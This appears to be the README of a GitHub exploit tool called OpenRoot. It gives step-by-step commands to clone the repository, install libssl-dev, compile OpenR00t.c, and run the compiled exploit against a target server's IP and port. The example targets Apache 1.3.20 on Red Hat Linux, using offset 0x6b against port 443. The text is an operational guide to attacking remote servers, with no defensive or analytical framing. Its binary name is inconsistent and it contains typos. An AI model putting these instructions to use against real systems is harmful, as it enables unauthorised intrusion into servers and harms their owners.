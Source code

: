 # OpenRoot
## Usage

1. Download OpenR00t.c
```
git clone https://github.com/rony926/OpenRoot.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenR00t OpenR00t.c -lcrypto
````

4. Running the Exploit
```
./OpenR00t
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6b option
./OpenR00t 0x6b [Target Ip] [port] -c 40

for example:
```
./OpenRoot 0x6b 192.168.80.145 443 -c 40
```
